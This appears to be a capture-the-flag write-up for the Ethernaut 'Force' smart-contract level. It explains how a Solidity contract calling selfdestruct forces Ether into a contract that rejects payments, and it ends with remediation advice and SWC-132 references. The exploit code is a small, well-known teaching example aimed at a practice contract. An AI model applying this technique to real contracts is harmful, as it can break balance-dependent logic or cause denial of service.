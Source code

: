 ![Token](/assets/img/BigLevel7.svg)

- [Challenge](#challenge)
- [Solution](#solution)
- [Remediation](#remediation)
- [References](#references)
   
# Challenge

The level says:

> Some contracts will simply not take your money ¯\_(ツ)_/¯
>
>The goal of this level is to make the balance of the contract greater than zero.
>
>  Things that might help:
>
> - Fallback methods
> - Sometimes the best way to attack a contract is with another contract.
> - See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

And gives the following contract's "code":

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

# Solution

We would normally start by reading the code, but this time, the contract has no code!

The level states that, in order to win, we have to make the contract's balance greater than zero. We could try some functions like `transfer()`, `send()`, `call()` like this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract SendEther {
    function sendViaTransfer(address payable _to) public payable {
        // This function is no longer recommended for sending Ether.
        _to.transfer(msg.value);
    }

    function sendViaSend(address payable _to) public payable {
        // Send returns a boolean value indicating success or failure.
        // This function is not recommended for sending Ether.
        bool sent = _to.send(msg.value);
        require(sent, "Failed to send Ether");
    }

    function sendViaCall(address payable _to) public payable {
        // Call returns a boolean value indicating success or failure.
        // This is the current recommended method to use.
        (bool sent, bytes memory data) = _to.call{value: msg.value}("");
        require(sent, "Failed to send Ether");
    }
}
```

The target contract has no `fallback()` defined. After trying to send ETH to the Force contract with these functions, we will notice that all of them are going to be reverted... 

Having an empty contract would be the equivalent of this:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract RevertFallback {

    fallback() external payable {
        revert () ; 
    }  
}
```

If all transactions are going to be reverted, then how can we send ETH to the contract to increment its balance?

Well there is a function called `selfdestruct()`:

> `selfdestruct(address)` is a feature of Ethereum using which you can kill a smart contract and transfer the contract Ether to any address passed as parameter. So this is also way using which on can force ether to a contract without triggering the fallback function.

Then, let's create a contract that self destructs sending its balance to the `Force` contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solver {

    constructor() payable {
    }

    function solve(address payable _to) public {
        selfdestruct(_to);
    }  
}
```

We make the constructor payable in order to send some ETH to the contract at deployment. Then we call the function `solve()` with the level's contract address as input to send the balance of the `Solver` contract to the target.

Now if we call
```javascript
await getBalance(contract.address)
'0.000000000000000001'
```
we can see that we incremented the balance of the target, thus, solving the level!!! :)

![Well done](/assets/img/ethernaut_solved.png)

*Note: by calling `selfdestruct()` to send ETH to a contract, keep in mind that if we send money to a contract that has no `withdraw()` function nor any other function to transfer the funds, those ETHs are going to be lost forever. So, NEVER EVER do this on the mainnet with real money*

# Remediation

> Contracts can behave erroneously when they strictly assume a specific Ether balance. It is always possible to forcibly send ether to a contract (without triggering its fallback function), using `selfdestruct`, or by mining to the account. In the worst case scenario this could lead to DOS conditions that might render the contract unusable.

- Avoid strict equality checks for the Ether balance in a contract.
- Not to count on the invariant `address(this).balance == 0` for any contract logic.

# References

- [SWC-132](https://swcregistry.io/docs/SWC-132)
- [Sending Ether (transfer, send, call)](https://solidity-by-example.org/sending-ether/)
- [Ways to send ETH to a contract having `throw` in fallback function](https://aniketengg.medium.com/ways-to-send-eth-to-a-contract-having-throw-in-fallback-function-41765db796de#:~:text=Using%20selfdestruct(address),without%20triggering%20the%20fallback%20function.)